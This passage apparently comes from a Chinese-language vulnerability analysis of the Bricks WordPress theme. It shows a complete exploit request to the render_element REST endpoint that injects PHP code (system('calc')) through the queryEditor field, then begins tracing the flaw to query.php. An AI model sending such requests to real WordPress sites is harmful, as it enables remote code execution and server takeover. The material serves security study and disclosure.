 **之后发送如下请求**

```php
POST /WordPress-6.4.3/wp-json/bricks/v1/render\_element HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86\_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
Content-Length: 270
Content-Type: application/json
Accept-Encoding: gzip, deflate, 

{
"postId": "1",
"nonce": " a980a714d9",
"element": {
"name": "container",
"settings": {
"hasLoop": "","query": {"useQueryEditor": "","queryEditor": "system('calc');","objectType": ""}
        }
    }
}
```

## 漏洞分析

位于\\wp-content\\themes\\bricks\\includes\\query.php 中 346 行

**![img](assets/1711369167-39c2bc9030463e6fba4f2a41aaae9e8e.png)**

**里面的$php\_query\_raw 函数用来执行用户提交的 PHP 代码并返回结果**

**紧接着向上分析**
